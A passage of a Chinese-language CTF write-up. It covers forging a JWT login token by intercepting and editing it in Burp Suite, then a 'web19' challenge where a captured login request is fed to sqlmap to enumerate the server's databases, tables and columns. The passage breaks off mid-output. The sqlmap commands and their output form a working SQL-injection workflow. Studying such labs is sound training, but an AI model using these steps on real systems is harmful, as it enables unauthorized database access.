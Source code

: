 ```php
            echo "账号或密码错误";
        }
    }
?> 
```
https://jwt.io/
登陆抓包
![](http://ww1.sinaimg.cn/large/0074VeWzly1g098vm1hb4j31fp0n6769.jpg)
![](http://ww1.sinaimg.cn/large/0074VeWzly1g098xb93pfj318s0kln02.jpg)
![](http://ww1.sinaimg.cn/large/0074VeWzly1g099qe7xhgj31750l20u3.jpg)
得到token
两次forward 到这个界面
![](http://ww1.sinaimg.cn/large/0074VeWzly1g098y4clk5j31er0mggpu.jpg)
关闭bp的拦截开关 在打开 去网页刷新一下 再次拦截 修改token
最后一下forward
最终
![](http://ww1.sinaimg.cn/large/0074VeWzly1g099ne1d3cj30hl0j2dgi.jpg)

# web19  `html隐写 git泄露 sqlmap -r注入 反序列化`
http://123.206.31.85:10019/
git泄露 读取
Hint 1: flag is in /eXpl0ve5p0cVeRymuCh
随便输入username 1 password 1 抓包 右键 copy to file 222.txt
```
POST /eXpl0ve5p0cVeRymuCh/index.php HTTP/1.1
Host: 123.206.31.85:10019
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://123.206.31.85:10019/eXpl0ve5p0cVeRymuCh/index.php
Cookie: PHPSESSID=igigfrkp4vjvmqpvol3v4mn6kc6615s4;
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

username=1&password=1
```
```
python2 .\sqlmap.py -r 222.txt --level 5
出现username可注入

python2 .\sqlmap.py -r 222.txt -p username --dbs
available databases [2]:
[*] information_schema
[*] web19

python2 .\sqlmap.py -r 222.txt -p username --tables -D web19
[2 tables]
+--------+
| user   |
| hlnt_2 |
+--------+

python2 .\sqlmap.py -r 222.txt -p username --columns -T hlnt_2 -D web19
[2 columns]
+--------+---------+
| Column | Type    |
```